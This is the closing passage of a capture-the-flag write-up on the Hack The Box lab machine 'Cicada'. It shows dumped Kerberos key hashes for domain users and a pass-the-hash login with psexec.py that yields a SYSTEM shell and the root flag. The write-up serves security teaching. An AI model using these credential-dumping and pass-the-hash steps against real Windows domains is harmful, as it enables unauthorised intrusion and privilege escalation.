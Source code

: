 ```bash
cicada.htb\michael.wrightson:des-cbc-md5:eca8d532fd8f26bc
cicada.htb\david.orelious:aes256-cts-hmac-sha1-96:125726466d0431ed1441caafe8c0ed9ec0d10b0dbaf4fec7a184b764d8a36323
cicada.htb\david.orelious:aes128-cts-hmac-sha1-96:ce66c04e5fd902b15f5d4c611927c9c2
cicada.htb\david.orelious:des-cbc-md5:83585bc41573897f
cicada.htb\emily.oscars:aes256-cts-hmac-sha1-96:4abe28adc1d16373f4c8db4d9bfd34ea1928aca72cb69362d3d90f69d80c000f
cicada.htb\emily.oscars:aes128-cts-hmac-sha1-96:f98d74d70dfb68b70ddd821edcd6a023
cicada.htb\emily.oscars:des-cbc-md5:fd4a5497d38067cd
[*] Cleaning up... 
```

<br />

Finally, we can apply Pass-the-Hash technique to log into nt authority\system account using `psexec.py`:

<br />

```bash
❯ psexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341" Administrator@cicada.htb
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Requesting shares on cicada.htb.....
[*] Found writable share ADMIN$
[*] Uploading file rAsJSufC.exe
[*] Opening SVCManager on cicada.htb.....
[*] Creating service gEZD on cicada.htb.....
[*] Starting service gEZD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
3b36cf7d0cde7875756bcaaa8bxxxxxx
```

<br />

Cicada successfully rooted.

Hope you had fun and learned a lot from this writeup.

Keep hacking!❤️❤️

<br />
